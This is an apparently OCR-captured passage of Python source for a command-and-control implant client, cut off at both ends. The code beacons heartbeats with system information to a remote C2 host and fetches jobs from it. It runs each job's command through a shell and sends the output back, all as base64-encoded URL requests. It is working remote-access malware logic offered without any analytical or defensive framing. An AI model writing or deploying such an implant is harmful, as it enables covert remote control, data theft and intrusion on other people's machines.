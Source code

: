 ```bash
        self.port = port
        self.host = host

        try:
            self.log = json.loads(self.log_file.read_text())
        except FileNotFoundError:
            self.log = {'heartbeats': [], 'jobs': [{'job_id': 0, 'cmd': 'whoami'}]}
            self.save_log()

    def encode_message(self, message):
        return base64.b64encode(message.encode('utf-8')).decode('utf-8')

    def decode_message(self, message):
        return base64.b64decode(message).decode('utf-8')
    
    def save_log(self):
        self.log_file.write_text(json.dumps(self.log))

    def send_c2_message(self, endpoint, message):
        try:
            message = self.encode_message(json.dumps(message))
            r = requests.get(f'http://{self.host}:{self.port}/{endpoint}/{message}')

            return r.text
        except requests.exceptions.ConnectionError:
            raise ConnectionError('Could not connect to C2')

    def send_heartbeat(self):
        heartbeat = {
            'time': datetime.now().isoformat(),
            'systeminfo': systeminfo(),
            'latest_job': self.log['jobs'][-1] if len(self.log['jobs']) > 0 else None,
            'success': False
        }

        try:
            self.send_c2_message('heartbeat', heartbeat)

            heartbeat['success'] = True
            self.log['heartbeats'].append(heartbeat)
        except ConnectionError:
            self.log['heartbeats'].append(heartbeat)
            print('Could not send heartbeat')

    def execute_cmd(self, command):
        try:
            p = subprocess.Popen(command, shell=True, stdout=subprocess.PIPE)
            output, err = p.communicate()
            return output.decode('utf-8')
        except Exception as e:
            print(e)
            return False

    def get_job(self, job_id='latest'):
        try:
            job = self.send_c2_message('get-job', job_id)
            job = json.loads(self.decode_message(job))
            self.log['jobs'].append(job)

            if 'cmd' in job:
                job['success'] = True
                job['result'] = self.execute_cmd(job['cmd'])
                self.send_c2_message('job-result', job)
```